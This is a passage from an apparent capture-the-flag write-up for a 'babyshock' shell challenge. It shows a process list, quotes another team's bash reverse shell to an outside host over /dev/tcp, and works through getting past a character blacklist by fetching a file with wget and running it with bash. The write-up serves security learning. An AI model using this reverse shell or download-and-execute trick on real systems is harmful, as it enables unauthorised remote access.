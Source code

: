 ```
19865 1128     /bin/bash -i
20201 1128     /bin/sh -c busybox sh
20202 1128     busybox sh
20326 root     [kworker/0:2-cgr]
20365 1128     python3 -c import pty; pty.spawn("/bin/bash")   <- 🤔
23368 1128     vim                                             <- 🤔
24865 1128     python3 /babyshock2020.py
24866 1128     /bin/sh -c busybox sh
25564 1128     python3 /babyshock2020.py
25565 1128     /bin/sh -c busybox sh
25566 1128     busybox sh
25575 1128     bash
...
25868 1128     {exe} ps
```

We can actually a see a few reverse shells from other teams still running! For
example, we can see the reverse shell of [posix](https://p6.is/) from
[The Flat Network Society](https://github.com/TFNS/) here:
```
bash -c bash -i >& /dev/tcp/p6.is/4444 0>&1
```

But how were they able to use blacklisted characters like `- > & /`?
Then I saw this line:
```
sh index.html
```

What if we put a bash script at some `domain.com`, download it, and then execute
it? That would allow us to bypass the blacklist. To test it, I ran this:
```
> pwd ; wget google.com
> /hitcon/<my_ip>
Connecting to google.com (216.58.197.174:80)
Connecting to www.google.com (216.58.220.100:80)
index.html           100% |*******************************| 14037   0:00:00 ETA
> pwd ; file index.html
> /hitcon/<my_ip>
index.html: HTML document, ASCII text, with very long lines
> pwd ; bash index.html
> /hitcon/<my_ip>
index.html: line 1: syntax error near unexpected token `<'   <-- Expected, since it's just HTML right now
```

Great, downloading and executing a file looks like it will work. Now we just
need to put a bash script on a server that can be reached from the shell.
However, when I tried to few different servers, I got this:
```
> pwd ; wget 12.345.67.89
> bad command: pwd ; wget 12.345.67.89       <-- Multiple periods in one command not allowed
> pwd ; images.google.com
> bad command: pwd ; wget images.google.com  <-- Multiple periods
> pwd ; wget google.com/test
> bad command: pwd ; wget google.com/test    <-- Slash not allowed
```
